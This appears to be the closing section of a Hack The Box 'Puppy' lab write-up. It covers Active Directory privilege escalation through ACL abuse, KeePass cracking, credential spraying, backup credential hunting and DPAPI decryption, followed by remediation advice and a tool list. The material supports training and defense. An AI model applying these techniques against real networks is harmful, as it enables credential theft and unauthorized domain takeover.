

Read the final flag from `C:\Users\Administrator\Desktop\root.txt`:



---

## Lessons Learned

- `GenericWrite` on a group is a foothold, not just an ACL note — self-add
  to inherit whatever the group can reach (here, a writable share).
- KeePass 4 uses Argon2; if `keepass2john` chokes, use the snap build of
  John. Then spray every recovered entry, not just the obvious one.
- `GenericAll` over a user covers `userAccountControl` too — a disabled
  target can be re-enabled with `bloodyAD` after a forced password change.
- Website/app backups are a classic cleartext-credential source; always
  hunt non-standard folders like `C:\Backups`.
- **DPAPI** is the payoff technique: locate blob + master key, decrypt the
  master key with the user password, then the blob — and filter out the
  WindowsLive junk blob.

---

## Remediation

- Audit and minimize ACLs (`GenericWrite`/`GenericAll`) on groups and user
  objects.
- Don't store credential databases on shares reachable by low-priv users.
- Strip credentials from backups and restrict access to backup locations.
- Treat `<user>_adm` twin accounts as tier-0 and protect their DPAPI
  secrets accordingly.

---

## Tools used

- `nmap`
- `bloodhound-python`, BloodHound GUI
- `net rpc`, `bloodyAD`
- KeePass (`keepass2john` snap, John, `keepassxc`)
- NetExec (`nxc`), `evil-winrm`
- Impacket (`smbserver.py`, `dpapi.py`)

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Puppy](https://www.hackthebox.com/machines/puppy)
